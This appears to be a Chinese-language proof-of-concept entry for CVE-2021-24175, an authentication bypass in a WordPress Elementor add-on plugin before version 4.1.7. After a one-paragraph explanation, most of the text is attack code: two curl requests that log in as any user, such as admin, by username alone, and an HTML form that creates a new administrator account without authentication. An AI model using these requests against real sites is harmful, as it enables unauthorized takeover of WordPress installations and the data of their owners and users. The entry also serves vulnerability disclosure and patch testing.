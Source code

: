 # WordPress Elementor Page Builder Plus插件身份验证绕过（CVE-2021-24175）

未经身份验证的用户可以使用"theplus_ajax_login"和"theplus_google_ajax_register" Ajax请求，通过仅提供相关的用户名，就可以像任何用户一样轻松地进行身份验证。

影响版本：

Elementor Page Builder <4.1.7

PoC：

```bash
curl -X POST --data action=theplus_ajax_login --data email=admin -iLSS https://example.com/wp-admin/admin-ajax.php
curl -X POST --data action=theplus_google_ajax_register --data email=admin --data nonce=a -iLSS https://example.com/wp-admin/admin-ajax.php
```

"theplus_google_ajax_register"  AJAX请求还可以允许任何未经身份验证的用户创建具有任意角色的帐户，例如admin，然后登录。

html：

```html
<form method="POST" action="https://example.com/wp-admin/admin-ajax.php">
<input value="newadmin" name="name" type="text">
<input value="test@example.com" name="email" type="text">
<input value="test" name="password" type="text">
<input value="theplus_google_ajax_register" name="action" type="text">
<input value="administrator" name="tp_user_reg_role" type="text">
<input value="any" name="nonce" type="text">
<input type="submit" />
</form>

```

ref：

* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24175
* https://wpscan.com/vulnerability/c311feef-7041-4c21-9525-132b9bd32f89